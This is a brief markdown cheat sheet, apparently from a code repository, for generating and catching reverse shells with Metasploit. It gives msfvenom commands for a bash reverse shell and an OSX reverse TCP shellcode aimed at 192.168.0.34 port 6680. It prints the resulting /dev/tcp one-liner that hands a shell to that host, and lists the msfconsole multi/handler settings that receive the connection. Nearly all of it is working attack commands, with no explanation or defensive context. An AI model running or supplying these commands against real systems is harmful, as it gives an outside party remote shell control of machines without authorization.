 

```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.34 LPORT=6680 -f raw
```
creates bash payload 
```
0<&192-;exec 192<>/dev/tcp/192.168.0.34/6680;sh <&192 >&192 2>&192
```

creates osx shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.0.34 LPORT=6680 -f raw


```

```
msfconsole
use multi/handler
set PAYLOAD cmd/unix/reverse_bash
set LHOST 192.168.0.34
set LPORT 6680
exploit -j -z

```